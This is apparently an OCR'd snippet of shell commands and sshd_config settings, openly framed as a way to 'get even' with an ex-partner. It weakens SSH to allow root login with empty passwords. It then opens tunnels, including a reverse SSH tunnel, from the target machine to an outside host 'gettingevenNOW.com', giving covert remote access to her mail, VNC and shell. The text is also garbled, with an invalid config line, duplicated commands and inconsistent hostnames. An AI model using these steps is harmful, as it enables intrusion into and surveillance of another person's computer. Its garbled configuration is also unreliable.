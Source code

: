 seqZFS-extZ
==============================================
cp /etc/ssh/sshd_config /etc/ssh/sshd_config.orig  # Safety Reasons
##################################################
#  Mad at your X; want to get even or updated ????             
#  WELLLLLL                                                                                                    #  This is something that make her business my advantage :)                 ##################################################
cp /etc/ssh/sshd_config /etc/ssh/sshd_config.orig  
Protocol open ssh
UsePrivilegeSeparation no
PermitRootLogin yes
PermitEmptyPasswords yes
X11Forwarding no
X11DisplayOffset 0
PrintMotd no
TCPKeePAlive yes
 
ssh -N -p 22 seqZFS-extZ@gettingevenNOW.com -L 2110:localhost:110

ssh -N -p 2022 seqZFS-extZ@gettingevenNOW.com -L 2110:localhost:110  -L  2025:localhost:25

ssh -g -p 2022 -N seqZFS-extZ@ygettingevenNOW.com 5223:talk.google.com:5223
ssh -X -p 2022 seqZFS-extZ@ygettingevenNOW.com
ssh -p 2022 seqZFS-extZ@ygettingevenNOW.com -L 5900:localhost:5900
ssh -R remoteport:localhost:22 [username]@[servername]
ssh -R 2048:localhost:22 seqZFS-extZ@ygettingevenNOW.com
ssh -p 2048 localhost
